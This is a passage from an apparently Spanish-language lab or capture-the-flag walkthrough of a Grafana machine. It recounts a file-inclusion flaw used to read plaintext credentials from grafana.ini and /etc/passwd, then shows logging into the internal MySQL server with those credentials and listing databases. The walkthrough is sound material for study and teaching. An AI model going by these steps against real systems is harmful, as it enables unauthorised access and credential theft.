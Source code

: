 
#### ✍️ Comentario:

El **LFI** nos permitió obtener credenciales almacenadas en texto plano dentro del archivo `grafana.ini`. Estas credenciales serán clave para conectarnos a la base de datos interna y avanzar en la explotación. Además, el archivo `/etc/passwd` nos brinda información valiosa sobre los usuarios del sistema.

> **Próximo paso:** Utilizaremos las credenciales extraídas para investigar la base de datos de Grafana y buscar más puntos de explotación.

---





### 🛠️ 2. Acceso a la Base de Datos

Con las credenciales extraídas del archivo `grafana.ini`, accedemos al servidor MySQL remoto, donde se encuentra la base de datos de Grafana.

```bash
mysql -h 10.0.2.14 -u grafana -p
Enter password:

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.39-0ubuntu0.20.04.1 (Ubuntu)

MySQL [(none)]>
```

---

#### 🔍 Exploración de la base de datos

1. Listamos las bases de datos disponibles:
   ```sql
   show databases;
   ```

   **Resultado:**
   ```
   +--------------------+
   | Database           |
   +--------------------+
   | grafana_db         |
   | information_schema |
   | mysql              |
   | performance_schema |
   | sys                |
   +--------------------+
   ```

2. Seleccionamos la base de datos `grafana_db` y listamos sus tablas:
   ```sql
   use grafana_db;
   show tables;
   ```

